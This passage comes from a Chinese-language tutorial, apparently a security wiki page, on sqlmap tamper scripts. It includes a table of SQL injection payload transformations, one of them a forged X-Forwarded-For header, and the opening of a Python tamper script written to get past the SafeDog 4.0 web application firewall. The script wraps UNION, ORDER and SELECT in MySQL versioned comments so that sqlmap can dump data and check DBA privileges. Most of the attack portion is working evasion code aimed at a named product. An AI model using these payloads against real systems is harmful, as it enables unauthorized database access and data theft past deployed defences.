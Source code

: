       <td style="text-align:left">&#x5BF9;&#x975E;&#x51FD;&#x6570;&#x7684;&#x5173;&#x952E;&#x5B57;&#x8FDB;&#x884C;&#x6CE8;&#x91CA;</td>
      <td
      style="text-align:left">1 union select user() ==&gt; 1/!UNION//!SELECT/user()</td>
    </tr>
    <tr>
      <td style="text-align:left">versionedmorekeywords.py</td>
      <td style="text-align:left">&#x5BF9;&#x6BCF;&#x4E2A;&#x5173;&#x952E;&#x5B57;&#x8FDB;&#x884C;&#x6CE8;&#x91CA;&#x5904;&#x7406;</td>
      <td
      style="text-align:left">1 union select user() ==&gt; 1/!UNION//!SELECT/user()</td>
    </tr>
    <tr>
      <td style="text-align:left">xforwardedfor.py</td>
      <td style="text-align:left">&#x6DFB;&#x52A0;&#x4E00;&#x4E2A;&#x4F2A;&#x9020;&#x7684;HTTP&#x5934;&#x201C;
        X-Forwarded-For &#x201D;&#x6765;&#x7ED5;&#x8FC7;WAF</td>
      <td style="text-align:left">headers = kwargs.get(&quot;headers&quot;, {})headers[&quot;X-Forwarded-For&quot;]
        = randomIP()return payload</td>
    </tr>
  </tbody>
</table>

### 二、绕狗4.0tamper

可过的版本：

主程序版本号：V4.0.26550  
网马库版本：2019-02-14  
官方防护规则版本：2019-2-14

tamper编写注意事项：

因为 sqlmap 的测试时对 UNION 查询注入测试时必须确定当前表的列数，也就是利用 ORDER BY 来确定。如果ORDER BY 语句不成功则直接跳过 UNION 查询注入阶段。所以如果使用 UNION 查询注入 tamper 必须对 ORDER BY 进行绕过。 

未绕过 ORDER BY 直接跳过 UNION 查询：

![](../../.gitbook/assets/image%20%2835%29.png)

```text
可 dump 数据的 tamper
#!/usr/bin/env python
# SafeDog 4.0.26550
#

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass


def tamper(payload, **kwargs):
    sign = '/*!51234a*/'
    retVal = payload
    l = ['UNION', 'ORDER','SELECT','super_priv'] # SELECT super_priv 为了sqlmap执行 "--is-dba"
    data = {}
    for i in l:
        data[i] = i + sign
```